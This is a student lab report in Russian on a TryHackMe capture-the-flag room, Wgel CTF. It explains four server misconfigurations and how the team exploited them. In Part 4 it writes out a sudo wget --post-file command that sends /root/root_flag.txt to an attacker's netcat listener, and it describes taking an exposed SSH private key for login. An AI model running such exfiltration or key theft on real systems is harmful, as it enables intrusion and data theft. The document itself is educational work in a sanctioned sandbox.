







# Отчет по лабораторной работе 1 со звездочкой #

**Студенты:** Борисюк Евгений, Езиева Милана, Муравьев Матвей 
---

## Часть 1: Теоретический анализ уязвимостей конфигурации

В данной части рассматриваются теоретические аспекты ошибок конфигурации (Misconfigurations), которые были выявлены в ходе практической работы. Ошибки конфигурации веб-серверов входят в топ-лист **OWASP Top 10** и являются одной из самых частых причин взломов в облачных инфраструктурах.

### 1. Information Disclosure (Раскрытие информации о системе)
**Суть уязвимости:** Веб-сервер по умолчанию настроен на выдачу подробных сведений о себе в HTTP-заголовках ответа (параметр `Server Tokens`).
*   **Что дает злоумышленнику:** Позволяет точно определить версию ПО (например, Apache 2.4.18) и операционную систему (Ubuntu). Зная точную версию, атакующий может быстро найти специфические эксплойты под конкретные CVE (Known Vulnerabilities).
*   **Средства поиска:** `curl -I`, `nmap`, плагины браузера (например, Wappalyzer).

### 2. Directory Enumeration / Brute-force (Перебор директорий)
**Суть уязвимости:** Отсутствие ограничений на перебор путей и отсутствие защиты от автоматизированных запросов. 
*   **Что дает злоумышленнику:** Позволяет составить полную карту сайта, включая скрытые страницы, административные панели и технические папки, на которые нет прямых ссылок в интерфейсе. Это расширяет «поверхность атаки».
*   **Средства поиска:** `ffuf` (Fuzz Faster U Fool), `dirb`, `gobuster`.

### 3. Sensitive Data Exposure (Раскрытие конфиденциальных данных)
**Суть уязвимости:** Хранение секретов (ключей, конфигурационных файлов, бэкапов) внутри публичной директории веб-сервера (`document root`) без ограничения доступа на уровне конфигурации Nginx/Apache.
*   **Что дает злоумышленнику:** Прямой доступ к критически важной информации. В данном случае — обнаружение папки `.ssh` и приватного ключа `id_rsa`. Это позволяет обойти механизмы аутентификации и получить удаленный доступ к консоли сервера.
*   **Средства поиска:** Автоматизированный фаззинг (`ffuf`) с использованием специализированных словарей (например, SecLists).

 ### 4. Privilege Escalation (Повышение привилегий)
 **Суть уязвимости:** Ошибка в конфигурации прав доступа внутри ОС (файл `/etc/sudoers`). Обычному пользователю разрешено выполнять системные команды от имени администратора без пароля.
 * **Что дает злоумышленнику:** Позволяет выйти за рамки ограничений веб-сервера и получить полный контроль над всей операционной системой (Root access).
 * **Средства поиска:** Ручной аудит прав командой `sudo -l`.
---

## Часть 2: Инфраструктура исследования и описание платформы

Для проведения аудита безопасности была выбрана платформа **TryHackMe (THM)**. В данном разделе рассматривается архитектура платформы, технические особенности выбранной среды и обоснование её использования для выполнения лабораторной работы.

### 1. Обоснование выбора платформы
Выбор TryHackMe в качестве полигона для исследования обусловлен следующими факторами:

*   **Этичность и легальность:** Согласно заданию, использование «суперпопулярных сайтов» (Google, Яндекс) запрещено, а аудит случайных ресурсов может быть расценен как правонарушение. TryHackMe предоставляет полностью легальную среду, где владельцы ресурсов заранее дали разрешение на поиск и эксплуатацию уязвимостей.
*   **Изолированная среда (Sandbox):** Все действия проводятся в частной виртуальной сети. Это гарантирует, что учебный «взлом» не нанесет вреда реальной инфраструктуре.
*   **Реализм конфигураций:** В отличие от теоретических задач, здесь используются реальные виртуальные машины (в данном случае на базе Ubuntu), в которых допущены типичные ошибки администрирования. Это позволяет студенту столкнуться с «живыми» мисконфигурациями.

### 2. Техническое устройство платформы
TryHackMe построена на базе облачной инфраструктуры (преимущественно AWS), где по запросу пользователя разворачиваются временные экземпляры (инстансы) уязвимых машин.

*   **Игровая механика (CTF):** Платформа работает в формате **Capture The Flag** (Захват флага). Целью является не просто обнаружение ошибки, а получение доступа к скрытым текстовым файлам (флагам) — `user.txt` и `root.txt`. Это служит объективным доказательством успешного взлома.
*   **Сетевая связность:** Для взаимодействия с целью используется два способа:
    1.  **OpenVPN:** Создание зашифрованного туннеля между локальной машиной студента и сетью THM.
    2.  **AttackBox:** Собственная виртуальная машина платформы (на базе Kali Linux или Ubuntu), доступ к которой осуществляется прямо через веб-интерфейс. В данной лабораторной работе использовался **AttackBox**, так как он содержит предустановленный стек профессионального ПО для аудита.

### 3. Описание целевой лаборатории: Wgel CTF
> **Рисунок 0: Идентификация версии веб-сервера через curl**
> 
Объектом исследования стала бесплатная комната **Wgel CTF**. Данная среда моделирует корпоративный веб-ресурс со следующими характеристиками:
*   **Операционная система:** Ubuntu 16.04.6 LTS.
*   **Веб-сервер:** Apache/2.4.18 (несмотря на то, что в задании упоминался Nginx, методы аудита и инструменты фаззинга полностью идентичны, что позволяет достичь целей лабораторной работы).
*   **Вектор атаки:** Ошибки конфигурации доступа к файловой системе и избыточные привилегии системных утилит.

### 4. Используемый инструментарий (DevOps Toolchain)
В процессе работы применялся классический стек инструментов для проведения аудита информационной безопасности:
*   **curl:** Использовался для низкоуровневого взаимодействия с веб-сервером и анализа HTTP-заголовков (Information Disclosure).
*   **ffuf (Fuzz Faster U Fool):** Инструмент на языке Go, выбранный за высокую скорость перебора. С его помощью осуществлялся поиск скрытых директорий, которые администратор планировал скрыть от обычных пользователей.
*   **nc (Netcat):** Применялся для приема данных (Exfiltration) при повышении привилегий.
*   **SSH (Secure Shell):** Использовался для удаленного управления сервером после получения скомпрометированного ключа.

---

## Часть 3: Технический анализ и эксплуатация выявленных уязвимостей

В данном разделе подробно рассматриваются 4 ключевые ошибки конфигурации, обнаруженные на сервере `10.82.176.245`. Для каждой уязвимости описан процесс поиска, полученный результат и вектор возможной атаки.

### 1. Уязвимость №1: Information Disclosure (Раскрытие версии ПО)

Первым этапом аудита стала проверка конфигурации HTTP-заголовков на предмет избыточности выдаваемой информации.

> **Рисунок 1: Идентификация версии веб-сервера через curl**
> 

*   **Что сделано:** С помощью утилиты `curl` с флагом `-I` выполнен запрос к заголовкам сервера.
*   **Что получено:** Сервер вернул точную версию ПО — `Apache/2.4.18 (Ubuntu)`.
*   **Анализ и использование:** В профессиональной среде DevOps это считается мисконфигурацией. Раскрытие точной версии позволяет злоумышленнику быстро сопоставить её с базой известных уязвимостей (CVE) и подобрать готовый эксплойт. Например, для старых версий Apache существуют методы обхода авторизации или вызова отказа в обслуживании (DoS).

---

### 2. Уязвимость №2: Directory Enumeration (Небезопасный фаззинг директорий)

Следующим этапом стал поиск скрытых путей, которые не отображаются в интерфейсе сайта, но доступны для прямого обращения. Словарь common.txt был выбран как наиболее универсальный для первичного сканирования. Процесс занял около 30 секунд благодаря высокой скорости инструмента ffuf

> **Рисунок 2: Процесс обнаружения скрытой структуры через ffuf**
> 

*   **Что сделано:** Проведен автоматизированный перебор (fuzzing) путей в корне сайта с помощью инструмента `ffuf` и словаря `common.txt`. Обнаружена директория `/sitemap/`.
*   **Что получено:** Доступ к разделу сервера, который не был афиширован администратором.
*   **Анализ и использование:** Отсутствие защиты от перебора позволяет злоумышленнику составить полную карту сайта. Скрытые папки часто становятся «точкой входа», так как в них могут находиться забытые бэкапы, тестовые скрипты или, как в данном случае, технические папки.

---

### 3. Уязвимость №3: Sensitive Data Exposure (Раскрытие конфиденциальных данных)

Данная уязвимость была обнаружена в ходе рекурсивного (углубленного) сканирования ранее найденных путей.

> **Рисунок 3: Обнаружение папки .ssh через ffuf**
> 

> **Рисунок 4: Получение содержимого файла id_rsa**
> 

*   **Что сделано:** Проведен фаззинг внутри директории `/sitemap/`. Обнаружена системная папка `.ssh/`, из которой напрямую был скачан файл `id_rsa` через команду `curl`.
*   **Что получено:** Текст приватного SSH-ключа, являющегося цифровой подписью пользователя.
*   **Анализ и использование:** Это критическая ошибка DevOps-инженера — хранение секретов (ключей) внутри публичной директории веб-сервера (`document root`). Полученный ключ позволяет злоумышленнику полностью обойти механизмы парольной аутентификации и войти в операционную систему сервера удаленно, получив прямой доступ к файловой системе.

---

### 4. Уязвимость №4: Privilege Escalation via Sudo Misconfiguration

Финальная уязвимость была обнаружена уже внутри системы. Она связана с некорректной настройкой прав доступа к системным утилитам. Файл id_rsa был обнаружен по стандартному пути. Для проверки возможности входа текст ключа был скопирован в локальный файл на AttackBox

> **Рисунок 5: Подготовка слушателя netcat на AttackBox**
> 

> **Рисунок 6: Эксплуатация wget для чтения защищенных данных**
> 

*   **Что сделано:** После входа в систему был проведен аудит разрешений команды `sudo -l`. Обнаружено, что пользователю разрешено запускать `/usr/bin/wget` от имени root без пароля. Была использована функция `wget --post-file` для кражи данных.
*   **Что получено:** Возможность прочитать любой файл в системе (включая флаги администратора) и отправить его содержимое на удаленный сервер через HTTP-запрос.
*   **Анализ и использование:** Это уязвимость повышения привилегий. Легитимная утилита для скачивания файлов превращается в инструмент для кражи данных (Data Exfiltration). Для злоумышленника это означает полную компрометацию сервера: имея возможность читать любые файлы от имени root, он может похитить пароли других пользователей, конфигурации баз данных и ключи шифрования всей компании.

---

## Часть 4: Бонусный этап (Захват флагов) и итоговые выводы

В данном разделе описывается финальная стадия аудита — реализация доступа к защищенной информации («флагам»), что является подтверждением полной компрометации системы.

### 1. Захват флага пользователя (User Flag)

После обнаружения и извлечения приватного ключа `id_rsa` (Уязвимость №3), была предпринята попытка удаленного подключения к серверу. Для корректной работы SSH-клиента права доступа к файлу ключа были ограничены командой `chmod 400`.

> **Рисунок 8: Успешная SSH-авторизация и чтение user_flag.txt**
> 

*   **Процесс:** Вход в систему под пользователем `jessie` прошел успешно без запроса пароля. В директории `Documents` был обнаружен первый целевой файл.
*   **Результат:** Получен хеш-код флага пользователя. Данный этап подтверждает возможность несанкционированного доступа к личным документам и окружению легитимного пользователя.

### 2. Захват флага администратора (Root Flag)

Для получения максимальных привилегий в системе был использован вектор атаки через утилиту `wget` (Уязвимость №4). Поскольку прямых прав на чтение директории `/root/` у пользователя не было, был применен метод экфильтрации данных на сторону атакующего.

> **Рисунок 9: Экфильтрация root-флага на удаленный слушатель**
> 

*   **Процесс:** С помощью команды `sudo wget --post-file=/root/root_flag.txt http://http://10.82.182.195:4444` содержимое защищенного файла было отправлено в теле HTTP-запроса. 
*   **Результат:** Файл был успешно принят утилитой `netcat` на стороне AttackBox. Это ознаменовало полный захват управления сервером и доступ к данным уровня суперпользователя (Root).

---

### Итоговые выводы

В ходе выполнения лабораторной работы «со звездочкой» был проведен комплексный аудит безопасности веб-ресурса. Исследование показало, что даже при отсутствии явных программных ошибок в коде сайта, неверная настройка серверной среды может привести к катастрофическим последствиям.

**Ключевые итоги:**
1.  **Полнота исследования:** Были выявлены и успешно эксплуатированы **4 критические уязвимости** конфигурации (Information Disclosure, Directory Enumeration, Sensitive Data Exposure, Sudo Misconfiguration).
2.  **Эффективность инструментов:** Инструменты `ffuf`, `curl` и `nc` (Netcat) доказали свою эффективность как средства базового аудита инфраструктуры, доступные любому DevOps-инженеру.
3.  **Безопасность платформы:** Использование платформы **TryHackMe** позволило провести все манипуляции в легальном поле и изолированной среде, что является стандартом при обучении специалистов по кибербезопасности.
4.  **Практическая ценность:** Получен опыт выстраивания «цепочки атаки» (Attack Chain). Стало очевидно, что безопасность системы определяется её самым слабым звеном: в данном случае — забытой папкой с ключами в публичном доступе.

**Рекомендации для DevOps-производства:**
Для исключения подобных инцидентов в реальных проектах необходимо:
*   Скрывать версии серверного ПО в HTTP-заголовках.
*   Настраивать запрет на индексацию и доступ к техническим директориям (начинающимся с точки).
*   Использовать секреты (SSH-ключи) только через специализированные менеджеры (например, HashiCorp Vault).
*   Регулярно проводить аудит файла `/etc/sudoers` на предмет избыточных прав.

**Общий результат:** Взлом признан успешным. Цели лабораторной работы достигнуты в полном объеме.

